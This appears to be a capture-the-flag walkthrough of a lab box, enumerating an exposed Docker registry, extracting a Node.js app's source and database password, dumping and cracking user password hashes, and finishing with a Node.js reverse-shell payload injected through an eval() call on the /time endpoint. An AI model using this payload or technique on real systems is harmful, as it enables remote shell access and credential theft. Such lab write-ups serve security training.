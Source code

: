 ```
# Nmap 7.94 scan initiated Sat Jan 20 08:01:27 2024 as: nmap -sC -sV -sT -T4 -p- -oN box 10.10.94.37
Nmap scan report for 10.10.94.37
Host is up (0.035s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f0:14:2f:d6:f6:76:8c:58:9a:8e:84:6a:b1:fb:b9:9f (RSA)
|   256 8a:52:f1:d6:ea:6d:18:b2:6f:26:ca:89:87:c9:49:6d (ECDSA)
|_  256 4b:0d:62:2a:79:5c:a0:7b:c4:f4:6c:76:3c:22:7f:f9 (ED25519)
3306/tcp open  mysql   MySQL 5.7.40
| ssl-cert: Subject: commonName=MySQL_Server_5.7.40_Auto_Generated_Server_Certificate
| Not valid before: 2022-12-22T10:04:49
|_Not valid after:  2032-12-19T10:04:49
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.40
|   Thread ID: 4
|   Capabilities flags: 65535
|   Some Capabilities: SwitchToSSLAfterHandshake, SupportsCompression, SupportsLoadDataLocal, ODBCClient, InteractiveClient, ConnectWithDatabase, FoundRows, LongPassword, LongColumnFlag, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, Support41Auth, Speaks41ProtocolOld, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, SupportsTransactions, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: \x0Bt.m\x14Nk\x19(
| )\x1E#U>+\x1Faz|
|_  Auth Plugin Name: mysql_native_password
5000/tcp open  http    Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
8080/tcp open  http    Node.js (Express middleware)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 20 08:02:20 2024 -- 1 IP address (1 host up) scanned in 52.59 seconds
```

docker registry at port 5000

gobuster gives v2 as valid directory

http://10.10.94.37:5000/v2/_catalog gives

{"repositories":["umbrella/timetracking"]}

so there is an unsecured repo running there, lets try to pull the image

```docker pull ${IP}:5000/umbrella/timetracking```


Add DOCKER_OPTS to /etc/default/docker:

DOCKER_OPTS="--config-file=/etc/docker/daemon.json"


and add the ip:port to /etc/docker/daemon.json insecure-registries

{
	"insecure-registries": [
		"10.10.94.37:5000"
	]
}

Get the tar from the image

```docker save umbrella/timetracking -o timetracking.tar```

and extract

```tar xvf timetracking.tar```

and we have the layers!

extract all layer.tars in the layer directories

```
for dir in `ls -d */`;
do
	pushd $dir
	tar xvf $dir/layer.tar
	popd
done
```

interesting stuff in ceca8630f6b5d6f4eb537a3fff6724b78d2fe1461ff8a7e31dfe44f424c479c7

the node app on 8080 is there:

```
cat usr/src/app/app.js  
```

```                                       
const mysql = require('mysql');

const connection = mysql.createConnection({
        host     : process.env.DB_HOST,
        user     : process.env.DB_USER,
        password : process.env.DB_PASS,
        database : process.env.DB_DATABASE
});

// http://localhost:8080/
app.get('/', function(request, response) {

        if (request.session.username) {

                connection.query('SELECT user,time FROM users', function(error, results) {
                        var users = []
                        if (error) {
                                log(error, "error")
                        };

                        for (let row in results){

                                let min = results[row].time % 60;
                                let padded_min = `${min}`.length == 1 ? `0${min}` : `${min}`
                                let time = `${(results[row].time - min) / 60}:${padded_min} h`;
                                users.push({name : results[row].user, time : time});
                        }
                        response.render('home', {users : users});
                });

        } else{
                response.render('login');
        }

});



// http://localhost:8080/time
app.post('/time', function(request, response) {

    if (request.session.loggedin && request.session.username) {

        let timeCalc = parseInt(eval(request.body.time));
                let time = isNaN(timeCalc) ? 0 : timeCalc;
        let username = request.session.username;

                connection.query("UPDATE users SET time = time + ? WHERE user = ?", [time, username], function(error, results, fields) {
                        if (error) {
                                log(error, "error")
                        };

                        log(`${username} added ${time} minutes.`, "info")
                        response.redirect('/');
                });
        } else {
        response.redirect('/');;
    }

});

// http://localhost:8080/auth
app.post('/auth', function(request, response) {

        let username = request.body.username;
        let password = request.body.password;

        if (username && password) {

                let hash = crypto.createHash('md5').update(password).digest("hex");

                connection.query('SELECT * FROM users WHERE user = ? AND pass = ?', [username, hash], function(error, results, fields) {

                        if (error) {
                                log(error, "error")
                        };

                        if (results.length > 0) {

                                request.session.loggedin = true;
                                request.session.username = username;
                                log(`User ${username} logged in`, "info");
                                response.redirect('/');
                        } else {
                                log(`User ${username} tried to log in with pass ${password}`, "warn")
                                response.redirect('/');
                        } 
                });
        } else {
                response.redirect('/');
        } 

});


```

mysql connection is made there:

```
const connection = mysql.createConnection({
        host     : process.env.DB_HOST,
        user     : process.env.DB_USER,
        password : process.env.DB_PASS,
        database : process.env.DB_DATABASE
});
```

So docker inspect to find the environment variables:

```docker inspect 10.10.94.37:5000/umbrella/timetracking```

```
            "Env": [
                "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
                "NODE_VERSION=19.3.0",
                "YARN_VERSION=1.22.19",
                "DB_HOST=db",
                "DB_USER=root",
                "DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5",
                "DB_DATABASE=timetracking",
                "LOG_FILE=/logs/tt.log"
```

login to mysql:

```
mysql -h ${IP} -u root -p"Ng1-f3\!Pe7-e5?Nf3xe5"   
```

```
MySQL [timetracking]> select * from users;
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 |
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 |
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 |
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 |
+----------+----------------------------------+-------+
```

2ac9cb7dc02b3c0083eb70898e549b63 = Password1
0d107d09f5bbe40cade3de5c71e9e9b7 = letmein
d5c0607301ad5d5c1528962a83992ac8 = sunshine1
4a04890400b5d7bac101baace5d7e994 = sandwich

/time endpoint executes eval on time argument without checking.

We should be able to do ssrf and get a shell with:

this one works, replace port and IP

```
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(12345, "127.0.0.1", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();
```

Dont know much about node.js

